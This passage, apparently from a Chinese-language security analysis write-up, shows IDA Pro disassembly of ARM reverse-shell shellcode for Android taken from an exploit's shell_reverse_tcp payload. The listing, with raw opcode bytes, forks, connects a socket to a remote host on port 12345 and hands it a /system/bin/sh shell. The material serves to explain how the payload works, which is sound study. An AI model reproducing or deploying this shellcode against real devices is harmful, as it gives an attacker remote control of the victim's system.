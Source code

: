 
中`payload[]`数组中的数据是从exploit的`shell_reverse_tcp`中提取的。这种加载方式在Android4.1.x可以运行，高版本Android增加了安全缓解技术，会报错，但不影响分析代码。用IDAPro加载编译程序，可以看到shell_reverse_tcp的反汇编代码如下：

    
    
    .data:00002000 02 70 A0 E3                             MOV             R7, #2
    .data:00002004 00 0000 EF                             SVC             0       ; __fork
    .data:00002008 00 00 50 E3                             CMP             R0, #0
    .data:0000200C 02 00 00 0A                             BEQ             loc_201C
    .data:00002010 00 00 A0 E3                             MOV             R0, #0
    .data:00002014 01 70 A0 E3                             MOV             R7, #1
    .data:00002018 00 0000 EF                             SVC             0       ; _exit_thread
    .data:0000201Cloc_201C                                ; CODE XREF: .data:0000200Cj
    .data:0000201C 42 70 A0 E3                             MOV             R7, #0x42
    .data:00002020 00 0000 EF                             SVC             0       ; setsid
    .data:00002024 02 00 A0 E3                             MOV             R0, #2
    .data:00002028 01 10 A0 E3                             MOV             R1, #1
    .data:0000202C 05 20 81 E2                             ADD             R2, R1, #5
    .data:00002030 8C 70 A0 E3 8D 70 87 E2                 MOV             R7, #0x119
    .data:00002038 00 0000 EF                             SVC             0       ; socket
    .data:0000203C 00 60 A0 E1                             MOV             R6, R0
    .data:00002040 6C 10 8F E2                             ADR             R1, loc_20B4 ; structsockaddr_in
    .data:00002044 10 20 A0 E3                             MOV             R2, #0x10
    .data:00002048 8D 70 A0 E3 8E 70 87 E2                 MOV             R7, #0x11B
    .data:00002050 00 0000 EF                             SVC             0       ; connect
    .data:00002054 06 00 A0 E1                             MOV             R0, R6
    .data:00002058 00 10 A0 E3                             MOV             R1, #0
    .data:0000205C 3F 70 A0 E3                             MOV             R7, #0x3F
    .data:00002060 00 0000 EF                             SVC             0       ; dup2
    .data:00002064 06 00 A0 E1                             MOV             R0, R6
    .data:00002068 01 10 A0 E3                             MOV             R1, #1
    .data:0000206C 3F 70 A0 E3                             MOV             R7, #0x3F
    .data:00002070 00 0000 EF                             SVC             0       ; dup2
    .data:00002074 06 00 A0 E1                             MOV             R0, R6
    .data:00002078 02 10 A0 E3                             MOV             R1, #2
    .data:0000207C 3F 70 A0 E3                             MOV             R7, #0x3F
    .data:00002080 00 0000 EF                             SVC             0       ; dup2
    .data:00002084 30 00 8F E2                             ADR             R0, aSystemBinSh ; "/system/bin/sh"
    .data:00002088 04 40 24 E0                             EOR             R4, R4, R4
    .data:0000208C 10 00 2D E9                             STMFD           SP!, {R4}
    .data:00002090 38 30 8F E2    ADR   R3, aPathSbinVendor ; "PATH=/sbin:/vendor/bin:/system/sbin:/sy"...
    .data:00002094 08 00 2D E9                             STMFD           SP!, {R3}
    .data:00002098 0D 20 A0 E1                             MOV             R2, SP
    .data:0000209C 10 00 2D E9                             STMFD           SP!, {R4}
    .data:000020A0 24 40 8F E2                             ADR             R4, aSh ; "sh"
    .data:000020A4 10 00 2D E9                             STMFD           SP!, {R4}
    .data:000020A8 0D 10 A0 E1                             MOV             R1, SP
    .data:000020AC 0B 70 A0 E3                             MOV             R7, #0xB
    .data:000020B0 00 0000 EF                             SVC             0       ; execve
    .data:000020B4  loc_20B4                       ; DATA XREF: .data:00002040o
    .data:000020B4 02 00 30 39   ;structsockaddr_in: <family+port+host>, port: 0x3039(12345)
    .data:000020B8xx xxxxxx; ip address
    .data:000020BC 2F 73 79 73 74 65 6D 2F+aSystemBinSh    DCB "/system/bin/sh",0  ; DATA XREF: .data:00002084o
    .data:000020BC 62 69 6E 2F 73 68 00                                            ; .data:loc_20B4o
    .data:000020CB 00                                      DCB    0
    .data:000020CC 73 68 00      aSh             DCB "sh",0              ; DATA XREF: .data:000020A0o
    .data:000020CF 00                                      DCB    0
    .data:000020D0 50 41 54 48 3D 2F 73 62+aPathSbinVendor DCB "PATH=/sbin:/vendor/bin:/system/sbin:/system/bin:/system/xbin",0
    .data:000020D0 69 6E 3A 2F 76 65 6E 64+       ; DATA XREF: .data:00002090o